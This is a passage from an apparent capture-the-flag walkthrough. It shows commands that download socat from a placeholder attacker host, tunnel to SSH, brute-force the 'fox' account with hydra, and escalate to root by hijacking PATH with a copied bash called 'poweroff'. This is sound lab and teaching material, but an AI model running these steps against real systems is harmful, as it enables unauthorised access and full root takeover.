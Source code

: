 4. We can use socat to open another port and redirect the traffic to port 22 on localhost

```bash
cd /usr/bin
python -m SimpleHTTPServer
```

```bash
cd /tmp
wget <ATTACKER_IP>:8000/socat
chmod +x socat
./socat TCP-LISTEN:2222,fork TCP:127.0.0.1:22
```

5. Brute force SSH credentials through our socat tunnel. Based on our enumeration, we try the username `fox`
   - Discovered credentials: `fox:batman`

```bash
hydra -l fox -P /root/Tools/wordlists/rockyou.txt ssh://<TARGET_IP>:2222
```

<img width="723" height="322" alt="SCREEN07" src="https://github.com/user-attachments/assets/656e7515-a078-44e1-a4f9-b92adf68846a" />

6. With valid SSH credentials, we can now log in and retrieve the user flag

```bash
ssh fox@<TARGET_IP> -p 2222
cat /home/fox/user-flag.txt
```

<img width="723" height="34" alt="SCREEN08" src="https://github.com/user-attachments/assets/7fe1f6c6-bb3c-474e-938f-cb3c3512925d" />

---

### What is the root flag?

1. Check what sudo privileges the `fox` user has
   - This reveals that the `fox` user can run `/usr/sbin/shutdown` as root without a password, which we can exploit for privilege escalation

```bash
sudo -l
```

<img width="721" height="108" alt="SCREEN09" src="https://github.com/user-attachments/assets/fb3ec113-3eaf-480c-ab90-fadc000d02b7" />

2. We can exploit the sudo permission by hijacking the PATH to execute our own malicious `poweroff` command instead of the legitimate one

```bash
cd /tmp
cp /bin/bash /tmp/poweroff
chmod +x /tmp/poweroff
export PATH=/tmp:$PATH
sudo /usr/sbin/shutdown
```
